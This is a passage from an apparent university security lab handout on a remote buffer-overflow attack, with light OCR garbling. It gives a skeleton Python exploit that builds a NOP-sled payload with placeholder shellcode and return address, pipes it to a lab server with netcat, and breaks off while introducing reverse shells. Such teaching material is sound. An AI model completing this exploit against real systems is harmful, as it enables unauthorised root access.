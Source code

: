 **Added randomness.** We have added a little bit of randomness in the program, so different students are likely to see different values for the buffer address and frame pointer. The values only change when the container restarts, so as long as you keep the container running, you will see the same numbers (the numbers seen by different students are still different). This randomness is different from the address-randomization countermeasure. Its sole purpose is to make students’ work a little bit different.

### 4.2 Writing Exploit Code and Launching Attack

To exploit the buffer-overflow vulnerability in the target program, we need to prepare a payload, and save it
inside a file (we will use `badfile` as the file name in this document). We will use a Python program to do
that. We provide a skeleton program called `exploit.py`, which is included in the lab setup file. The code
is incomplete, and students need to replace some of the essential values in the code.

Listing 2: The skeleton exploit code (`exploit.py`)
```
#!/usr/bin/python
import sys

# You can copy and paste the shellcode from Task 1
shellcode = (
"" # I Need to changeI


).encode(’latin-1’)

# Fill the content with NOP’s
content = `bytearray`(0x90 for i in range(517))

##################################################################
# Put the shellcode somewhere in the payload
start = 0 # I Need to changeI
content[start:start + len(shellcode)] = shellcode

# Decide the return address value
# and save it somewhere in the payload
ret = 0xAABBCCDD # I Need to changeI
offset = 0 # I Need to changeI

# Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + 4] = (ret).to_bytes(4,byteorder=’little’)
##################################################################

# Write the content to a file
with open(’badfile’, ’wb’) as f:
f.write(content)
```
After you finish the above program, run it. This will generate the contents for `badfile`. Then feed it to the vulnerable server. If your exploit is implemented correctly, the command you put inside your shellcode will be executed. If your command generates some outputs, you should be able to see them from the container window. Please provide proofs to show that you can successfully get the vulnerable server to run your commands.
```
$./exploit.py // create the badfile
$ cat badfile | nc 10.9.0.5 9090
```
**Reverse shell.** We are not interested in running some pre-determined commands. We want to get a root
shell on the target server, so we can type any command we want. Since we are on a remote machine, if we
simply get the server to run `/bin/sh`, we won’t be able to control the shell program. Reverse shell is a